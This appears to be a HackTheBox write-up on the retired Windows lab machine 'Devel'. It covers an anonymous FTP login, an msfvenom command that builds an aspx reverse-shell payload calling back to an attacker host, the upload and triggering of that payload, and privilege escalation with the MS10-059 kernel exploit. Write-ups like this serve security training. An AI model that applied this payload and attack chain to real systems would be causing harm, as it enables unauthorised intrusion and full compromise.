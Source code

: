 ```yaml
---
title: Devel Hackthebox Writeup
date: 2020-12-18 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,systeminfo,ftp anonymous,aspx,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/devel-hackthebox/devel-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Devel:~$


Column | Details
------------ | -------------
Name | Devel
IP | 10.10.10.5
Points | 20
Os | Windows
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 15th March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* logging in as `anonymous` user in `ftp port`.
* Uploading an aspx `shell` via ftp and accessing it on `port 80` to get a reverse shell.
* Using `windows exploit suggester` for escalating privileges.
* using `MS10-059.exe` got `Root Privileges`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/devel-hackthebox/nmap-scan-1.png)

Let's Check port `80`, which is a **Microsoft IIS httpd 7.5** server.

___
![](/assets/img/devel-hackthebox/port-80-2.png)

I tried `gobuster` for directory search, but it didn't worked out for me.

**Command** : *gobuster dir -u http://10.10.10.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100*

where   **t : threads**
        **| u : URL**
        **| w : wordlists**

___
![](/assets/img/devel-hackthebox/gobuster-3.png)

Then I tried logging in `ftp` as an `anonymous user` which worked. 

*Username*: `anonymous` | *Password*: `anonymous`

___
![](/assets/img/devel-hackthebox/ftp-anonyous-4.png)

Looking what's inside ftp 

___
![](/assets/img/devel-hackthebox/ftp-inside-5.png)

I tried accessing the `aspnet_client/` directory but it showed an *403 Forbidden Error*.

___
![](/assets/img/devel-hackthebox/aspent_client-access-denied-6.png)

I used gobuster on `aspnet_client/`, but it didn't worked out.

So I tried uploading a shell in the `ftp` using **put** command and accessing it via `port 80` to get a reverse shell.

Creating payload using `msfvenom` 

**Command**: *msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=1234 -f aspx > shell.aspx*

___
![](/assets/img/devel-hackthebox/msfvenom-payload-8.png)

Uploading it to `ftp`.

___
![](/assets/img/devel-hackthebox/uploaded-shell-ftp-9.png)

Accessing /shell.aspx on `port 80`.

We got a Shell.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

But I wasn't able to get the `User Flag` becasue we didn't had the permissions.

___
![](/assets/img/devel-hackthebox/no-access-11.png)

Let's first escalate the privileges, running `systeminfo` on the machine to get all the information.

___
![](/assets/img/devel-hackthebox/getting-systeminfo-for-privsec-13.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/devel-hackthebox/exploit-suggester-results-14.png)

I tried using the `MS10-59` exploit for escalating privileges.

Download Link : [MS10-59.exe]( https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

Uploading `MS10-59.exe` via ftp, just like we uploaded the aspx shell.

___
![](/assets/img/devel-hackthebox/escalating-privs-15.png)

When I tried escalating privileges, it threw me an `error` of *This program cannot be run in DOS mode.*

___
![](/assets/img/devel-hackthebox/cannot-run-in-DOS-mode-16.png)

I googled about it and found [this](https://superuser.com/questions/476808/i-am-getting-this-program-cannot-be-run-in-dos-mode-in-windows-xp).

Now sending the executable again but before that switching the `ftp` mode to `binary` first.

___
![](/assets/img/devel-hackthebox/transfering-0again-in-binary-mode-17.png)

Now Running the exploit and listenig on `nc`.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

Checking `whoami`.

___
![](/assets/img/devel-hackthebox/whoami-image-final.png)

Got `Root`.

